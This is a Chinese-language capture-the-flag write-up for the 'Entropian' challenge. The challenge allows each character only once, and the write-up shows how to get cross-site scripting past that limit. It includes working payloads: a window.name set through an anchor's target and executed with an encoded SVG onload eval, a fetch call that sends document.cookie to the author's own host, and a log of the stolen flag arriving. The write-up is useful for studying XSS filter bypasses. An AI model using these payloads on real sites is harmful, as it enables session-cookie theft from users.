 # Entropian

(賽中未解)

這題限制所有字元只能出現最多一次

然後要偷`document.cookie`

由於`<script src="xxx"></script>`太多重複字元

故很容易想到要用`eval()`之類的方式，去跑`location.hash`, `window.name`, ...之類的

最後發現`name`可以透過`<a>`的`target`來控制

所以exploit流程就是:

1. 用`<iframe>`引入我們的domain
2. 在我們domain首頁放一個`<a>`，把`target`設成我們的payload，`href`指向`<SVG/ONLoAD=eval(name)>` (記得encoding一下)
3. 再讓bot點擊這個link
4. 最後bot會執行我們的payload

<br>

細節如下:

kaibro.tw/index.html:

```
<a href="http://entropian-01.pwn.beer:3001/entropian?input=%3CSVG/ONLoAD=eval(n%26%2397;m\u{65})%3E" target="fetch('http://kaibro.tw/?'+document.cookie)" id="x">aaa</a>

<script>
document.getElementById('x').click();
</script>
```

最後把以下連結發給bot即可收到flag:

http://entropian-01.pwn.beer:3001/entropian?input=<IfrAme%20sRc=\/kaib%26%23x72;o.tw>

```
34.252.66.50 - - [24/May/2019:07:00:40 +0000] "GET /?flag=sctf{1_th0ught_h1GH_3ntr0py_w@s_sec00re?} HTTP/1.1" 200 568 "http://entropian-01.pwn.beer:3001/entropian?input=%3CSVG/ONLoAD=eval(n%26%2397;m\\u{65})%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/76.0.3786.0 Safari/537.36"
```
